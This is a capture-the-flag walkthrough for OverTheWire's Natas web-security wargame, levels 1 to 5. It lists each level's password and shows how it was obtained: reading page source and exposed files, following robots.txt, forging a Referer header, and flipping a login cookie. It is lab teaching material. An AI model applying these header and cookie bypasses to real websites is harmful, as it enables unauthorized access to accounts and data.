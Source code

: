 ### Natas1

```text
view-source:http://natas1.natas.labs.overthewire.org/
the password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi
```

### Natas2

```text
view-source:http://natas2.natas.labs.overthewire.org/files/pixel.png
http://natas2.natas.labs.overthewire.org/files/
http://natas2.natas.labs.overthewire.org/files/users.txt

# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

### natas 3

```text
http://natas3.natas.labs.overthewire.org/robots.txt
http://natas3.natas.labs.overthewire.org/s3cr3t/
http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```

### Natas 4

Access disallowed. You are visiting from "" while authorized users should come only from "[http://natas5.natas.labs.overthewire.org/](http://natas5.natas.labs.overthewire.org/)"

```text
F12 -> network -> reload page ->  edit headers
Add following
Referer: http://natas5.natas.labs.overthewire.org/

resend
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```

### Natas 5

Access disallowed. You are not logged in

```text
F12 -> network -> load page -> look at cookie header.
Cookie: __cfduid=d95a9db8b02c419d414e69605e6cd5dc81557856656; loggedin=0

Change loggedin=0 to loggedin=1
resend

Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```

